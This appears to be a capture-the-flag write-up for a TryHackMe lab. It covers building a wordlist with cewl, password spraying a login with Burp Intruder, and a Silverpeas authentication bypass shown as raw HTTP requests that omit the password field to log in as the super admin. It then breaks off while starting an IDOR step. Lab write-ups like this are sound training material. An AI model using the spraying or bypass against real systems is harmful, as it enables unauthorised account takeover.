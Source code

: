 # Password Spraying Attacks using BurpSuitePro

I'll be using BurpSuitePro in this instance with intruder 

First Generating a Custom Wordlist with a help of tool named cewl

```bash
ashu㉿kali ~/TryHackMe/SilverPlatter cewl http://silverplatter.thm > custom_passwords.txt

ashu㉿kali ~/TryHackMe/SilverPlatter ls
custom_passwords.txt  vhost-fuzzer.sh

ashu㉿kali ~/TryHackMe/SilverPlatter cat custom_passwords.txt
──────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: custom_passwords.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
   2   │ the
   3   │ Item
   4   │ and
   5   │ Hack
   6   │ Smarter
   7   │ Security
   8   │ this
   9   │ adipiscing
  10   │ Default
  11   │ for
  12   │ you
  13   │ integer
  14   │ aliquet
  15   │ Tyler
  16   │ Heading
  17   │ Level
  18   │ felis
  19   │ faucibus
  20   │ with
  21   │ our
  22   │ that
  23   │ This
  24   │ accumsan
  25   │ lorem
  26   │ Dolor
  27   │ pulvinar
  28   │ etiam
  29   │ Felis
  30   │ enim
  31   │ feugiat
  32   │ Ante
  33   │ turpis
  34   │ porttitor
  35   │ arcu
  36   │ skills
  37   │ Intro
  38   │ Work
  39   │ About
  40   │ Contact
  41   │ Elements
  42   │ digital
  43   │ Ramsbey
  44   │ basement
  45   │ where
  46   │ hacking
  47   │ try
  48   │ hard
  49   │ tempus
  50   │ ipsum

```

## Using Intruder Tab to spray the passwords on with Intercept On

- By Filtering the response length I think this is the password 

![[Pasted image 20250222194535.png]]

Let's Try Logging In 

![[Pasted image 20250222194756.png]]

Got Logged In 


# Exploiting a vulnerability of Authentication Bypass with a CVE 


## Exploit Title: Silverpeas CRM - Authentication Bypass
https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

Silverpeas up to and including 6.3.4 is vulnerable to a trivial authentication bypass. When authenticating, if the sender omits the password form field, the application will sign you in as the user specified without any challenge.

E.g. the standard login request will look like this:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&Password=SilverAdmin&DomainId=0
```

This will fail login (unless they have forgotten to change the default password) and you will be redirected back to the login page with an error code.

But if you remove the password field like this:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&DomainId=0
```

Then the login attempt will (usually) succeed and redirect you to the main page, now logged in as a super admin.

The bug works with any valid user, but SilverAdmin is the default super admin.

## Gaining Access Through IDOR

When Loggin in to silver peas i found a notification and when i open the notication it open up a link with a parama

![[Pasted image 20250222233355.png]]